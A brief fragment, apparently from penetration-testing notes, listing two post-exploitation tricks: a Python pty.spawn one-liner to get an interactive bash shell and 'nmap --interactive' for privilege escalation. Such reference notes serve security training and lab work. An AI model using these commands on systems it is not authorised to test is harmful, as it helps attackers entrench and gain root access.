 Spawn interactive shell: python -c import pty;pty.spawn("/bin/bash")

Privilege escalation with nmap :  ```nmap --interactive```